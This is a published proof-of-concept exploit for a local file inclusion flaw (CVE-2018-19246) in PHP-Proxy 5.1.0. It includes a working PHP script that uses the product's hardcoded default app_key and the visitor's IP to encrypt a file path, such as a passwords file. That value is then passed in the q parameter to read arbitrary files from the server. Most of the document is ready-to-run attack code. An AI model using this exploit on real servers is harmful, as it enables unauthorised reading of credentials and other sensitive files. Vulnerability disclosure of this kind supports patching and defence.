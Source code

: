 POC
---

    # Exploit Title: PHP-Proxy 5.1.0 - Local File Inclusion
    # Date: 2018-11-13
    # Exploit Author: Ameer Pornillos
    # Contact: https://ethicalhackers.club
    # Vendor Homepage: https://www.php-proxy.com/
    # Software Link: https://www.php-proxy.com/download/php-proxy.zip
    # Version: 5.1.0
    # Category: Webapps
    # Tested on: XAMPP on Win10_x64
    # Description: Downloadable pre-installed version of PHP-Proxy 5.1.0
    # make use of a default app_key wherein can be used for local file inclusion
    # attacks. This can be used to generate encrypted string which
    # can gain access to arbitrary local files in the server.
    # http://php-proxy-site/index.php?q=[encrypted_string_value]
    # CVE: CVE-2018-19246

    # POC:
    # 1)
    # Generate encrypted string value using the PHP script below
    # 2)
    # Browse to URL
    # http://php-proxy-site/index.php?q=[encrypted_string_value]
    # to read local file

    <?php
    $file = "file:///C:/xampp/passwords.txt"; //example target file to read
    $ip = "192.168.0.1"; //change depending on your IP address that access the app
    $app_key = "aeb067ca0aa9a3193dce3a7264c90187";
    $key = md5($app_key.$ip);
    function str_rot_pass($str, $key, $decrypt = false){
        $key_len = strlen($key);
        $result = str_repeat(' ', strlen($str));
        for($i=0; $i<strlen($str); $i++){
            if($decrypt){
                $ascii = ord($str[$i]) - ord($key[$i % $key_len]);
            } else {
                $ascii = ord($str[$i]) + ord($key[$i % $key_len]);
            }
            $result[$i] = chr($ascii);
        }
        return $result;
    }
    function base64_url_encode($input){
        return rtrim(strtr(base64_encode($input), '+/', '-_'), '=');
    }
    echo base64_url_encode(str_rot_pass($file, $key));
    ?>